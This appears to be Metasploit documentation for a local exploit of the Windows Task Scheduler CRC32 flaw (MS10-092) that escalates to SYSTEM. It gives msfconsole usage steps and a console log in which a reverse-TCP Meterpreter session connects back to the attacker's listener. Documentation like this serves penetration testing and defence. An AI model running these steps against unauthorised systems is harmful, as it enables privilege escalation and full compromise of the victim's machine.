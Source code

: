 ## Vulnerable Application

This module exploits the Task Scheduler 2.0 XML 0day exploited by Stuxnet.
When processing task files, the Windows Task Scheduler only uses a CRC32
checksum to validate that the file has not been tampered with. Also, In a default
configuration, normal users can read and write the task files that they have
created. By modifying the task file and creating a CRC32 collision, an attacker
can execute arbitrary commands with SYSTEM privileges.

## Verification Steps

1. Start msfconsole
2. Get a Meterpreter session
3. Do: `use modules/exploits/windows/local/ms10_092_schelevator`
4. Do: `set SESSION <session id>`
5. Do: `run`

## Options

### TASKNAME

A name for the created task (default is random)

## Scenarios

### Windows Server 2008 SP1 (x64)

```
msf6 > use exploit/windows/local/ms10_092_schelevator
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms10_092_schelevator) > set session 1
session => 1
msf6 exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 192.168.200.130:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Preparing payload at C:\Users\user\AppData\Local\Temp\QMGmEeEmFFq.exe
[*] Creating task: qThxbR37
[*] Reading the task file contents from C:\Windows\system32\tasks\qThxbR37...
[*] Original CRC32: 0xec6cfb1d
[*] Final CRC32: 0xec6cfb1d
[*] Writing our modified content back...
[*] Validating task: qThxbR37
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "qThxbR37" have been changed.
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "qThxbR37" have been changed.
[*] Executing the task...
[*] Sending stage (200774 bytes) to 192.168.200.218
[*] Meterpreter session 2 opened (192.168.200.130:4444 -> 192.168.200.218:52347) at 2022-08-19 00:53:17 -0400
[*] Deleting task pcT2p46d0...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-17B09RRRJTG
OS              : Windows 2008 (6.0 Build 6001, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : CORP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter >
```
